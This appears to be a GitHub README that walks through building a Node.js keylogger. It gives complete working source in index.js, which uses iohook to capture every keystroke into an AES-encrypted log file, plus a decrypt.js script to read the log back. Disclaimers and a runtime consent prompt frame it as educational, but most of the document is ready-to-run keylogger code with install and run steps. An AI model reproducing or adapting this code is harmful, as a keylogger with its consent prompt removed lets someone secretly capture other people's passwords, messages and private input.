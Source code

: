 # keyLOG
<!-- Made BY Binary Quest -->

<b>!!! NOTE - THIS CODE IS FOR EDUCATIONAL PURPOSE ONLY.(DON'T TRY IT WITHOUT KNOWLEDGE ABOUT THIS CODE)⚠️
>AUTHORS WON'T BE RESPONSIBLE FOR ANY ILLIGAL ACTIVITY</b>
1) Pre-requisites:

>Install Node.js (v14+ recommended) on your PC.

2) Create a new folder for your project and initialize:
Open your terminal/command prompt:


```
mkdir keylogger
cd keylogger
npm init -y
```

3) Install dependencies
We'll use:

iohook for global keyboard capturing
no external encryption lib needed, Node.js's crypto is sufficient
Install iohook:

```
npm install iohook
```

4) Create the main script: index.js
>step - In your text editor (VS Code, Notepad++, etc.), create a new file called index.js and paste this:

```
const iohook = require('iohook');
const readline = require('readline');
const crypto = require('crypto');
const fs = require('fs');
const path = require('path');

const LOG_FILE = path.join(__dirname, 'keylog.enc'); // encrypted log file path
const ALGORITHM = 'aes-256-cbc';

// Store logs in memory as lines of text
let logs = [];

// Generate a random IV for AES
function generateIV() {
  return crypto.randomBytes(16);
}

// Encrypt string with password using AES-256-CBC
function encrypt(text, password) {
  const iv = generateIV();
  const key = crypto.scryptSync(password, 'salt', 32);
  const cipher = crypto.createCipheriv(ALGORITHM, key, iv);
  let encrypted = cipher.update(text, 'utf8', 'hex');
  encrypted += cipher.final('hex');
  // Return iv + encrypted data as hex
  return iv.toString('hex') + ':' + encrypted;
}

// Ask user confirmation and password
function askQuestion(query) {
  const rl = readline.createInterface({ input: process.stdin, output: process.stdout });
  return new Promise(resolve => rl.question(query, ans => {
    rl.close();
    resolve(ans);
  }));
}

(async () => {
  console.log("!!! WARNING: This program will record ALL your keyboard input.");
  let consent = await askQuestion("Do you want to start capturing keyboard input? (yes/no): ");
  consent = consent.trim().toLowerCase();

  if (consent !== 'yes') {
    console.log("Consent not given. Exiting.");
    process.exit(0);
  }

  const password = await askQuestion("Enter a password to protect your log file: ");
  if (!password) {
    console.log("Password cannot be empty. Exiting.");
    process.exit(1);
  }

  console.log("Keyboard logging started. Press Ctrl+C to stop and save.");

  // Listen for keyboard events
  iohook.on('keydown', event => {
    // Decode key - event.keychar may be undefined for some keys; log raw keycode and timestamp
    const time = new Date().toISOString();
    let keyStr = event.rawcode || event.keycode || event.keychar || 'UnknownKey';
    logs.push(`[${time}] Key: ${keyStr}`);
  });

  iohook.start();

  // On exit, save the encrypted log file
  const saveLogs = () => {
    if (logs.length === 0) {
      console.log("No keystrokes logged.");
      process.exit(0);
    }
    const plainText = logs.join('\n');
    const encrypted = encrypt(plainText, password);
    fs.writeFileSync(LOG_FILE, encrypted, { encoding: 'utf8' });
    console.log(`\nLogs saved encrypted to: ${LOG_FILE}`);
    process.exit(0);
  };

  process.on('SIGINT', () => {
    console.log('\nReceived interrupt signal. Saving logs...');
    iohook.stop();
    saveLogs();
  });

})();
```

5) Usage instructions:
Run the script by typing in terminal:

```
node index.js
```

It will display a warning and prompt:
Do you want to start capturing keyboard input? (yes/no):
Type yes if you want to proceed.

It will ask for a password to protect the log file.
Enter any password you want.

After that, all your key presses will be recorded until you press Ctrl+C to stop.

On exit, your log file will be saved encrypted as keylog.enc in the same folder.

6) To read the log file later
Here's a simple decrypt script you can create as decrypt.js to decrypt and view logs:

```
const crypto = require('crypto');
const fs = require('fs');
const path = require('path');

const LOG_FILE = path.join(__dirname, 'keylog.enc');
const ALGORITHM = 'aes-256-cbc';

function decrypt(encryptedText, password) {
  const [ivHex, encryptedData] = encryptedText.split(':');
  const iv = Buffer.from(ivHex, 'hex');
  const key = crypto.scryptSync(password, 'salt', 32);
  const decipher = crypto.createDecipheriv(ALGORITHM, key, iv);
  let decrypted = decipher.update(encryptedData, 'hex', 'utf8');
  decrypted += decipher.final('utf8');
  return decrypted;
}

const readline = require('readline');
const rl = readline.createInterface({ input: process.stdin, output: process.stdout });

rl.question('Enter password to decrypt log file: ', password => {
  if (!fs.existsSync(LOG_FILE)) {
    console.error('Log file not found!');
    process.exit(1);
  }
  const encryptedContent = fs.readFileSync(LOG_FILE, 'utf8');
  try {
    const decrypted = decrypt(encryptedContent, password);
    console.log('\n--- Decrypted Logs ---\n');
    console.log(decrypted);
  } catch (err) {
    console.error('Failed to decrypt file. Wrong password or corrupted file.');
  }
  rl.close();
});
```

Run it with:

```
node decrypt.js
```

Recap:
You'll have two scripts: index.js (to record) and decrypt.js (to read).
keylog.enc file stores encrypted logs.
Password you provide protects your data.
Notes:
This script uses native Node.js modules and a popular native keylogger iohook.
You might need to build iohook binaries on some platforms, Replit and some environments may not support it well. Preferred to run locally on your PC.
You must run this script with admin privileges on some systems for global keyboard capture.

AGAIN NOT RECOMENDED TO USE WITHOUT PC OWNER'S PERMISSION.
